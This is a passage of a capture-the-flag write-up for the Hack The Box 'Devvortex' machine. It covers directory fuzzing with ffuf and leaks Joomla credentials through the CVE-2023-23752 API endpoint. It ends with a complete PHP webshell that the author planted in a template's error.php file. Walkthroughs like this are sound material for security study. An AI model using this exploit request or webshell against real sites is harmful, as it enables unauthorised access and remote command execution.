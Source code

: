 Let's look for any hidden directories:
```
$ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://dev.devvortex.htb/FUZZ -ic 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.devvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 28ms]
                        [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 3463ms]
home                    [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 3587ms]
[...]
```
You can see the server is really slow and it would take forever to enumerate all the directories. Hopefully, we know this is a Joomla server and we can try to deduce the administrator interface: http://dev.devvortex.htb/administrator/.
We can also see the version of Joomla at http://dev.devvortex.htb/administrator/manifests/files/joomla.xml. It is version 4.2.6. This version seems to be vulnerable to [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752).
## Vulnerability assessment
To check if the server is vulnerable to [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752), we need to access to `http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`. We can see that a username and a password is leaking. Using them on the administrator interface leads to a login. These credentials do not work to log in SSH.
## Exploitation
From the admin interface, it is possible to edit template files: System > Site Templates > Cassiopeia Details and Files. You cannot modify the file `index.php` but you can modify `error.php`. I replaced the content of the file with the following PHP webshell:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
```
